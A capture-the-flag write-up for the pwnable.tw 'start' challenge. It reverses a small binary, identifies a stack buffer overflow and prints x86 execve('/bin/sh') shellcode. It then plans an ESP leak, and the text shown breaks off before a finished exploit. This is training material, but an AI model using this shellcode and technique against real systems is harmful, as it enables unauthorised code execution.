

# Start
I started by connecting to the service, which yielded:

```text
kf@kf:~$ nc chall.pwnable.tw 10000
Let's start the CTF:
```

I wrote something to it and lost connection.

# Reversing
Opening the binary in IDA pro yielded two very small functions. Only one of interest:



Decompiliation provided by IDA is not very good. Manually analysis yields something like:

```c++
int buff[5];
buff[0] = 0x...;
buff[1] = 0x...;
buff[2] = 0x...;
buff[3] = 0x...;
write(STDOUT_FILENO, &buff, 20);
read(STDIN_FILENO, &buff, 60);
return;
```


This is definitely a stack-based buffer overflow. Notice the begging of the `_start` function executes:

```
push esp
push offset _exit
```

Thus, when `retn` is executed, the address of the `_exit` function popped of the stack and the program counter (`PC`) is set that value. This results in `_exit` being called. Nothing interesting in `_exit`, since it just calls `exit(1);`. However, the stack pointer address pushed on the stack just before the offset to `_exit`. So what if we overwrote the stack location that contains the `_exit` address to instead be `0x0804809C`? Then the first call `retn` pops the `_exit` offset (which we overwrote to return to `retn` again), while the next `retn` would pop `esp` into `PC`. We could have placed shellcode at this location. A simple `execve("/bin/sh", 'sh', NULL)` would replace the current process with a shell instead.

# First attempt
pwntools contains a shellcraft template that simply calls `execve("/bin/sh", 'sh', NULL)`. We are going to use that.


## Failed!

This did not seem to work. We only have 20 bytes available before we are going to overwrite the `_exit` address on the stack. Thus, our payload can only be 20 bytes long. The shellcraft template is way too long for that, as it contains code to push `/bin/sh` onto the stack:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\x00'] */
/* push 'sh\x00\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx /* null terminate */
push 4
pop ecx
add ecx, esp
push ecx /* 'sh\x00' */
mov ecx, esp
xor edx, edx
/* call execve() */
push 11 /* 0xb */
pop eax
int 0x80
```

This fills up 44 bytes :(

# Second attempt
It should be possible to directly load `/bin/sh\0` onto the stack and call `execve` more directly instead of pushing instructions. This should reduce the size considerably.

## Thought about it
This does not work. I got the layout of the stack wrong. When calling `read` the stack looks like (where the value of `x` is unknown):

| Address | Content             | Notes          |
|---------|---------------------|----------------|
| x+20 | 0x2774654C             | <-- ESP; push 2774654Ch |
| x+16 | 0x74732073             | push 74732073h |
| x+12 | 0x20747261             | push 20747261h |
| x+8  | 0x20656874             | push 20656874h |
| x+4  | 0x3A465443             | push 3A465443h |
| x+0  | 0x0804809D             | Address of _exit, loaded into PC at return   |
| x-4  | x-8                    | ESP at start of _start      |

The call to `read` will start to insert bytes at address `x+20`. We only have 20 bytes before overwriting the return address.

The binary has no protections enabled. In particular, the stack is executable (no `NX` set). However, we do not know where the stack is placed. However, the value of `ESP` is pushed to the stack at `push ESP`. My idea of inserting `0x0804809C` at `x+0` does not work, as it would return to `ESP` as it was when it was pushed. However, to overwrite that location, we would overwrite address `x-4`.

What if we could read out the value at address `x-4`? This seems possible as 20 is added to `ESP` just before calling return. It would look like this:

| Address | Content             | Notes          |
|---------|---------------------|----------------|
| x+0  | 0x0804809D             | <-- ESP; Address of _exit, loaded into PC at return;    |
| x-4  | x-8                    | ESP at start of _start      |

So what if we returned to `0x08048087`? The location that would send out 20 bytes from the top of the stack?

That would allow us to read the value of `ESP` and place the shellcode afterwards. 


